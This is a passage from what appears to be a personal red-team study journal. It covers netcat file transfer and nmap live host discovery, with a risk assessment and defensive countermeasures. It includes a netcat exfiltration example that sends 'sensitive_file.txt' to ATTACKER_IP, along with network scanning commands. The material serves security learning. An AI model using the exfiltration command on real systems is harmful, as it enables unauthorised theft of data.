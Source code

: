 ```bash
# Data Exfiltration Channels
nc -l -p 8080 > received_file.txt    # File reception
# From target: nc ATTACKER_IP 8080 < sensitive_file.txt
📈 RISK ASSESSMENT
Detection Risk: MEDIUM-HIGH (Direct system interaction)

Intelligence Value: HIGH (Internal system information)

Operational Impact: CRITICAL (Direct engagement preparation)

🔧 DEFENSIVE COUNTERMEASURES UNDERSTOOD
Network monitoring and connection logging

Firewall rules for unexpected connection attempts

Intrusion Detection Systems (IDS) for reconnaissance patterns

Service hardening and banner modification

🚀 PROGRESSION IN RED TEAM SKILL MATRIX
✅ Web Application Security
✅ Database Security
✅ Stealth Intelligence Gathering
✅ Direct Engagement Operations ← ACTIVE RECON ADDED
◽ Advanced Network Scanning
◽ Vulnerability Exploitation
◽ Privilege Escalation

OPERATIONAL NOTES: Active reconnaissance represents the transition from passive observation to direct engagement. While carrying detection risk, it provides invaluable tactical intelligence that cannot be obtained through passive methods alone. Proper operational security and timing are critical during this phase.

(Day 4: 2025/10/10)

# Red Monster Journey 🐲 
## NMap Live Host Discovery Mastery

### 🎯 MODULE COMPLETATION: NMAP LIVE HOST DISCOVERY
**Status:** Mastered ✅
**Red Team Application:** Network Target Identification & Reconnaissance Optimization

### 🔴 NMAP HOST DISCOVERY TRADECRAFT DOCUMENTATION

#### 📊 OPERATIONAL OVERVIEW
Live host discovery identifies active systems on target networks before port scanning, optimizing operational efficiency and minimizing unnecessary network noise.

#### 🎲 HOST DISCOVERY TECHNIQUES MASTERED

##### TARGET SPECIFICATION METHODS
```bash
# Various target input formats
nmap 192.168.1.1                 # Single IP
nmap 192.168.1.1-10              # IP range
nmap 192.168.1.0/24              # Subnet notation
nmap -iL targets.txt             # File input
PRIVILEGE-BASED DISCOVERY STRATEGIES
bash
# PRIVILEGED USER (root/sudo) - Full capability
sudo nmap -sn 192.168.1.0/24     # Auto ARP + ICMP + TCP

# UNPRIVILEGED USER - Limited to TCP SYN
```